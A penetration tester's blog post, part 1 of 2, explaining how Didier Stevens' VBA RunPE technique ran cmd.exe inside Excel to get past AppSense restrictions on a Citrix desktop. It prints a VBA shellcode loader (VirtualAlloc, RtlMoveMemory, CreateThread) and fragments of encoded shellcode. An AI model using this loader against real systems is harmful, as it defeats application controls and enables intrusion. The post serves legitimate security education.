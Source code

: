 ```yaml
---
title: "VBA RunPE - Breaking Out of Highly Constrained Desktop Environments - Part 1/2"
layout: "post"
---
```


In this post, I'd like to share a technique that I often use to break out of highly constrained desktop environments such as CItrix. The only prerequisite is to have access to _Microsoft Word_ or _Excel_ with the VBA editor enabled. 


## Background

During an engagement, I had to assess the security level of a thick client on a Citrix virtual desktop. Usually, this kind of audit is quite easy. You find a way to open an _Explorer_ window, you access the `C:\` drive, execute `cmd.exe` or, even better, `powershell.exe`, and it's almost game over. If you're lucky enough, you will even find a vulnerability to escalate your privileges.

This time, however, it was different. I was able to quickly open an ``Explorer`` window - using the `File > Open...` menu - but, from there, I got an `Access Denied` error message with every application I tried to execute. None of the techniques listed in the [UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) worked. 

The `Access Denied` error messages I got were not caused by _AppLocker_ but by a third-party security product: _[AppSense](https://www.ivanti.com/company/history/appsense)_ by _Ivanti_, and it was properly configured. Nevertheless, I spotted a potential weakness...


## The weakness 

After a few hours spent on looking for what I could execute on the virtual desktop, I came to the conclusion that only the thick client itself and _Microsoft Excel_ were accessible with my current privileges. So, I opened _Excel_ and enabled the _Developer tab_ to access the VBA editor. This was my way out...

This will probably seem an obvious avenue to explore for the most experienced pentesters but, at that time, it was not for me. I only knew that I could use `Metasploit` to generate shellcodes as VBA payloads but I also knew that they would be detected by the antivirus software. 


## VBA to the rescue

From there, I've done a lot of research to see what I could do with the VBA editor, and I stumbled upon [Didier Stevens' blog](https://blog.didierstevens.com/). For those of you, like me at that time, who never heard of him before, he is a Belgian security researcher, who works a lot on malicious _Office_ documents and ways to analyze and detect them.

One of his posts caught my attention: [Create Your Own CMD.XLS](https://blog.didierstevens.com/2016/02/10/create-your-own-cmd-xls/). It was about running `cmd.exe` within _Excel_ without creating a new process. Wait...! What...?!

<p align="center">
  <img src="/assets/posts/2018-12-12-vba-runpe-part1/01_stevens-blog-cmd-xls.png">
</p>

As we can see on his screenshot, the title of the command prompt window is actually the path of the _Excel_ executable. How is that possible and how will it help us?


## RunPE in VBA

Didier Stevens actually implemented a variant of the _RunPE_ technique in VBA. RunPE is a trick that has been used by malware authors for many years. It consists in running code inside the memory of a legit process in order to hide its actual ativity. 

I won't digress too much and explain what _RunPE_ is in detail. Instead, I will try to explain how his code works. You can follow along by downloading it [here](http://didierstevens.com/files/software/cmd-dll_v0_0_4.zip).

### 1) Importing WIN32 functions 

One of the most powerful features of VBA is the possibility to import functions from the Windows API. That's exactly what the first lines of his code do. They import 3 functions from `kernel32.dll`:

- [VirtualAlloc](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366887(v=vs.85).aspx)
- [RtlMoveMemory](https://docs.microsoft.com/en-us/windows/desktop/devnotes/rtlmovememory)
- [CreateThread](https://msdn.microsoft.com/en-us/library/windows/desktop/aa374779(v=vs.85).aspx)

```vb
Private Declare Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
Private Declare Sub RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As Long, ByVal sSource As String, ByVal lLength As Long)
Private Declare Function CreateThread Lib "KERNEL32" (ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, ByVal lpParameter As Long, ByVal dwCreationFlags As Long, ByRef lpThreadId As Long) As Long
```

These functions are also the ones thet are typically used to execute a _shellcode_ on Windows. 

### 2) Defining structures and constants

A lot of structures and constants are defined in the Windows API. The problem is that VBA is _not aware_ of these definitions. So we have to declare them manually. 

Here, we are lucky, only two constants are required by `VirtualAlloc` and that's all.

- `MEM_COMMIT`
- `PAGE_EXECUTE_READWRITE`

```vb
Const MEM_COMMIT = &H1000
Const PAGE_EXECUTE_READWRITE = &H40
```

### 3) The shellcode 

The objective is to run `cmd.exe` within _Excel_. To do so, the `cmd.exe` PE file was extracted from [ReactOS](https://reactos.org/) and converted to an alphanumeric shellcode. However, this operation has a cost. It generates a huge string that needs to be embedded into the code. To add to the challenge, the VBA editor has several restrictions: the length of the lines of code and functions are limited. 

Therefore, the shellcode needs to be constructed from the concatenation of multiple blocks, which are themselves the concatenation of multiple strings. 

The blocks are constructed like this:

```vb
Private Function ShellCode1() As String
    Dim sShellCode As String

    sShellCode = ""
    sShellCode = sShellCode + "6FoIAADDVYnlUVZXi00Mi3UQi30U/zb/dQjoGQAAAIkHgccEAAAAgcYEAAAA4uZfXlmJ7F3CEABVieVT"
    sShellCode = sShellCode + "VldRZP81MAAAAFiLQAyLSAyLEYtBMGoCi30IV1DoWwAAAIXAdASJ0evni0EYUItYPAHYi1h4WFABw4tL"
    sShellCode = sShellCode + "HItTIItbJAHBAcIBw4syWFABxmoB/3UMVugjAAAAhcB0CIPCBIPDAuvjWDHSZosTweICAdEDAVlfXluJ"
    sShellCode = sShellCode + "7F3CCABVieVRU1IxyTHbMdKLRQiKEIDKYAHT0eMDRRCKCITJ4O4xwItNDDnLdAFAWltZiexdwgwAVYnl"
    sShellCode = sShellCode + "g30MAHUVi0UQUGoAi00I/1EoUItFCP9QDOsXi1UQUotFDFBqAItNCP9RKFCLRQj/UBBdwgwAVYnlg+wU"
    sShellCode = sShellCode + "i0UUi0gEiU3wi1UUiwKLTRSLEQ+3ShSNVAgYiVXsx0X8AAAAAOsM/0X8i03sg8EoiU3si1UUiwIPt0gG"
    '[snip]
    
    ShellCode1 = sShellCode
End Function
```

The blocks are then assembled like this:

```vb
Private Function ShellCode() As String
    Dim sShellCode As String

    sShellCode = chr(&hEB) + chr(&h3A) + chr(&h31) + chr(&hD2) + chr(&h80) + chr(&h3B) + chr(&h2B)
    '[snip]
    sShellCode = sShellCode + ShellCode1()
    sShellCode = sShellCode + ShellCode2()
    sShellCode = sShellCode + ShellCode3()
    sShellCode = sShellCode + ShellCode4()
    '[snip]
    sShellCode = sShellCode + ShellCode204()
    sShellCode = sShellCode + ShellCode205()
    sShellCode = sShellCode + ShellCode206()
    sShellCode = sShellCode + ShellCode207()
    sShellCode = sShellCode + ShellCode208()

    ShellCode = sShellCode
End Function
```

Calling the `ShellCode()` function will therefore _dynamically_ generate the entire shellcode in memory.

### 4) Executing the shellcode

Once the shellcode is constructed, it can be executed the same way it would be in a standard Windows console application written in C++. First, a buffer is allocated using `VirtualAlloc` with `EXECUTE` permission. Then, the content of the shellcode is copied to the allocated buffer. Finally, a new thread is created by specifying the address of the buffer as a pointer to the thread `StartFunction`.  

```vb
Public Sub ExecuteShellCode()
    Dim sShellCode As String
    Dim lpMemory As Long
    Dim lResult As Long

    sShellCode = ShellCode()
    lpMemory = VirtualAlloc(0&, Len(sShellCode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    RtlMoveMemory lpMemory, sShellCode, Len(sShellCode)
    lResult = CreateThread(0&, 0&, lpMemory, 0&, 0&, 0&)
End Sub
```


## Conclusion

Et voilà! We have a VBA macro that can be used to run `cmd.exe` within _Word_ or _Excel_. This can bypass any restriction as long as you have access to one of these two _Office_ products and the VBA editor is enabled. 

However, it has several drawbacks:

### It only runs `cmd.exe`

Thanks to the command prompt, we can browse the entire file system easily, and... ...that's about all. Indeed, we won't be able to execute any other commands since it would require the creation of subprocesses. In addition, the shellcode was developed to run `cmd.exe` only and creating a new one to execute another PE file might represent a tedious task. 

### __It is only 32-bit compatible__

This time, I was very lucky because a 32-bit version of _Office_ was installed in the virtual environment. If a 64-bit version was installed instead, the code would have failed. 

### __The code is huge!__

The final size of the VBA code is more than 2.2MB, for a total of more than 22,000 lines of code. A detail that I didn't mention in my scenario is the fact that file transfers between the host and the virtual desktop were also forbidden. Fortunately, it was still possible to use the clipboard but since its size was limited, I had to copy the entire code piece by piece manually. I could have used something like a _[Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe)_ to work around this issue but I figured that the risk of failure was too high because of the huge amount of code to type.

But don't get me wrong, I'm very impressed by Didier Stevens' work and it clearly saved my day because I had nothing else to rely on. However, it was one of those times when you think you could have done better. So, I decided to make my own version and I implemented the full RunPE technique in VBA to address these limitations. 

The development process will be discussed in part 2... ;)

